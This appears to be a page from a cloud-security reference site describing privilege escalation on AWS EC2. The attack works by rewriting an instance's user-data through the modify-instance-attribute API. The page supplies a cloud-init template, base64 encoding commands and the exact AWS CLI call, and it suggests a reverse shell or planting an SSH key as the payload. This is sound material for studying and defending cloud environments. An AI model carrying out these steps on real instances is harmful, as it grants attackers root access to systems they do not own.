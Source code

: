 ```yaml
---
author: Nick Frichette
title: "Local Privilege Escalation: User Data"
description: Escalate privileges on an EC2 instance by modifying the user-data scripts with modify-instance-attribute
enableEditBtn: true
editBaseURL: https://github.com/Hacking-the-Cloud/hackingthe.cloud/blob/master/content
---
```

**Required IAM Permission**: [modify-instance-attribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)
**Recommended but not required**: [start-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html), [describe-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-instances.html), [stop-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html) (makes things go faster, requires less enumeration. The instance must be stopped to alter the user data)

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started, however this can be changed using [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) to run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the modify-instance-attribute API call to change the user data of the target instance. Note: the instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.